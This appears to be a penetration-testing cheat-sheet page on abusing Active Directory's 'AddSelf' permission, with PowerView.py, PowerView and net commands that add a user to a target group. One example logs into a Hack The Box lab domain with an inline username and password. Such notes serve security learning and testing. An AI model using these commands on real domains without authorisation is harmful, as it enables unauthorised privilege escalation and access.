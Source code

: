 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

### Add User to Group

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../ad-tools/powerview.md).

{% tabs %}
{% tab title="PowerView.py" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# add user to the group
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
# confirm group membership
Get-DomainGroupMember -Identity '<GROUP>'
```
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' '<USER>' /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
